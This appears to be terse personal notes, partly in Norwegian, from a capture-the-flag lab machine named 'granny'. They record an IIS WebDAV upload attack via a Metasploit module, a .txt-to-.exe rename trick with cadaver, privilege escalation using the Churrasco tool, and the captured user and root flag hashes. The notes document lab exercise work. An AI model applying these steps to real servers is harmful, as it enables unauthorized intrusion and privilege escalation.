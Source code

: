 ## granny 10.10.10.15

Microsoft Windows 2003\|XP\|2008 \(91%\)

kun port 80

webdav her og?

fikk lastet opp asp fil.

~~netstat -anpt -v -n 10.10.12.238 4444~~

`use exploit/windows/iis/iis_webdav_upload_asp`

Windows .NET Server \(Build 3790, Service Pack 2\).

Architecture    : x86

whoami

nt authority\network service

username **lakis**

**server 2003 sp2 x86**

limited user called “Network Service”. This user has Read and Execute, but no Write access, and a very limited field of view to boot.

Administrator            ASPNET                   Guest

IUSR\_GRANPA              IWAM\_GRANPA              Lakis

SUPPORT\_388945a0

ingen vmic

icalcs ingen write permissions på network service

cadaver 10.10.10.15

put som .txt og move til .exe

last opp [https://github.com/Re4son/Churrasco](https://github.com/Re4son/Churrasco)

http://carnal0wnage.attackresearch.com/2010/05/playing-with-ms09-012-windows-local.html

c.exe -d cmd

type "c:\documents and settings\administrator\desktop\root.txt"

**aa4beed1c0584445ab463a6747bd06e9**

type "c:\documents and settings\lakis\desktop\user.txt"

**700c5dc163014e22b3e408f8703f67d1**

